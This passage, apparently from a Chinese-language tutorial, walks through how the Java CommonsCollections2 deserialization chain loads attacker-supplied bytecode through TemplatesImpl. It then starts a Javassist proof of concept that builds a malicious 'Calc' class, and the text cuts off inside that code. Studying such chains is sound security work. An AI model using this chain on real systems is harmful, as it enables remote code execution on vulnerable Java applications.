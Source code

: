 ```java
javaprivate byte[][] _bytecodes = null;
```

而这个值是我们控制传入的. `classCount`值就为`1`

`_class = new Class[classCount];`创建一个`new Class[1]`的数组.

classCount > 1不符合, `_auxClasses = new HashMap<>();`不执行

然后进入for循环

```java
for (int i = 0; i < classCount; i++) {
    _class[i] = loader.defineClass(_bytecodes[i]);
    final Class superClass = _class[i].getSuperclass();

    // Check if this is the main class
    if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
        _transletIndex = i;
    }
    else {
        _auxClasses.put(_class[i].getName(), _class[i]);
    }
}
```

classCount=1, 执行

然后`defineClass(_bytecodes[i])`将传入字节码转换为Java类对象。

继续跟进, 因为后面`getTransletInstance`中`newInstance`执行需要`_transletIndex`不小于0. 

所以

```java
 if (superClass.getName().equals(ABSTRACT_TRANSLET)) {  //uperClass.getName():,获取当前类的父类的全限定名
     //.equals(ABSTRACT_TRANSLET):将父类名称与ABSTRACT_TRANSLET常量进行比较, 这个条件需要满足
        _transletIndex = i;
    }
```

让`_transletIndex=0`. 然后后面这个方法的执行与CC2无关, 回到`getTransletInstance`中

执行完`if (_class == null) defineTransletClasses();`后执行

`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`

调用触发了`newInstance`. 实列化对象,执行执行流程. 

然后`TemplatesImpl.newTransformer`是由`InvokerTransformer`.`transform`方法触发的

### 代码

```java
package lazyMapDemo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.NotFoundException;
import java.lang.reflect.Field;
public class CC2 {
    public static void main(String[] args) throws Exception {
        // 使用Javassist创建恶意类
        ClassPool pool = ClassPool.getDefault();
        // 获取AbstractTranslet类作为父类
        CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        // 创建名为"Calc"的恶意类
```